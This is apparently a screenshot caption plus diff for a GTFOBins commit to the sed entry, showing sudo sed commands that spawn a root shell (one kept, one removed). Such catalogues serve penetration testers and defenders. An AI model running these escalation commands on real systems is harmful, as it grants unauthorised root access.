

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sed.md, in a window 1280 px wide and 900 px high, scrolled down 709 px. Shown: the top 869 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix and reword sed shell example

```diff
--- a/_gtfobins/sed.md
+++ b/_gtfobins/sed.md
@@ -21,6 +23,4 @@ functions:
   sudo:
     - description: GNU version only. Also, this requires `bash`.
       code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
-    - description: Spawn interactive root shell by leveraging e(pipe) command. GNU version only.
-      code: sudo sed e
 ---
```
Also changed, not shown: other parts of _gtfobins/sed.md (+2 -0 lines).
